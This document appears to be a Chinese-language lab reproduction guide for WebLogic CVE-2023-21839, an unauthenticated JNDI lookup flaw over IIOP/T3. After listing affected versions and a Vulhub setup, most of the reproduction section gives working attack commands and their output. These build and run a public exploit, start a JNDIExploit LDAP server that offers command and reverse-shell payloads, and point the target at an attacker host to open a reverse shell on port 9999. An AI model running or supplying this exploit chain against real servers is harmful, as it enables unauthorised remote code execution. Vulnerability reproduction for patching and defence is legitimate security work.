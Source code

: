 # Weblogic 未授权远程代码执行漏洞 CVE-2023-21839

## 漏洞描述

Oracle WebLogic Server是业界领先的应用程序服务器，用于使用Java EE标准构建企业应用程序，并以低拥有成本将其部署在可靠、可扩展的运行时。

在 [Oracle 2023年1月安全公告日](https://www.oracle.com/security-alerts/cpujan2023.html) 修复了这个漏洞。

CVE-2023-21839 允许远程用户在未经授权的情况下通过 IIOP/T3 进行 JNDI lookup 操作，当 JDK 版本过低或本地存在小工具（javaSerializedData）时，这可能会导致 RCE 漏洞。

参考链接:

- https://www.oracle.com/security-alerts/cpujan2023.html

## 漏洞影响

```
Oracle WebLogic Server 12.2.1.3.0
Oracle WebLogic Server 12.2.1.4.0
Oracle WebLogic Server 14.1.1.0.0
```

## 环境搭建

Vulhub执行以下命令启动 Weblogic server 12.2.1.3

```
docker-compose up -d
```

启动完成后访问`http://your-vps-ip:7001/console`可以看到管理界面

![image-20230228142512212](images/image-20230228142512212.png)

## 漏洞复现

Weblogic CVE-2023-21839 RCE Exploit： https://github.com/4ra1n/CVE-2023-21839

需要使用 JDK 8u191 以下启动 Weblogic 并自行搭建 JNDI Server，此处使用 ：

- JNDIExploit：https://github.com/WhiteHSBG/JNDIExploit
- **java version：1.8.0_361**

如果发现 panic 或有其他报错，说明目标不存在漏洞（或关闭了 IIOP 功能）。

Linux/Mac OS：

```
cd cmd
go build -o CVE-2023-21839
./CVE-2023-21839 -ip 127.0.0.1 -port 7001 -ldap ldap://127.0.0.1:1389/evil
```

Windows：

```
cd cmd
go build -o CVE-2023-21839.exe
CVE-2023-21839.exe -ip 127.0.0.1 -port 7001 -ldap ldap://127.0.0.1:1389/evil
```

在Windows上的DNS Log：

```
C:\Threekiii> CVE-2023-21839.exe -ip <your-vps-ip> -port 7001 -ldap ldap://9xqmx0.dnslog.cn
[*] your-ip: <your-vps-ip>
[*] your-port: 7001
[*] your-ldap: ldap://9xqmx0.dnslog.cn
[*] weblogic 12
[*] id=2 LocateRequest
[*] id=3 RebindRequest
[*] id=4 RebindRequest
[*] id=5 LocateRequest
[*] id=6 ResolveRequest
[*] id=7 ResolveRequest
```

![image-20230228145744308](images/image-20230228145744308.png)

Windows上测试反弹Shell不成功，转到Linux系统执行。

启动JNDI服务器：

```
java -jar JNDIExploit-1.4-SNAPSHOT.jar -i <your-vps-ip>

------------
[+] Basic Queries: ldap://<your-vps-ip>:1389/Basic/[PayloadType]/[Params], e.g.
    ldap://<your-vps-ip>:1389/Basic/Dnslog/[domain]
    ldap://<your-vps-ip>:1389/Basic/Command/id
    ldap://<your-vps-ip>:1389/Basic/Command/Base64/[base64_encoded_cmd]
    ldap://<your-vps-ip>:1389/Basic/ReverseShell/<your-vps-ip>/9999  ---windows NOT supported
    ...
```

执行Exploit：

```
./CVE-2023-21839 -ip <your-vps-ip> -port 7001 -ldap ldap://<your-vps-ip>:1389/Basic/ReverseShell/<your-vps-ip>/9999
```

监听9999端口，成功接收反弹Shell：

![image-20230228154614995](images/image-20230228154614995.png)




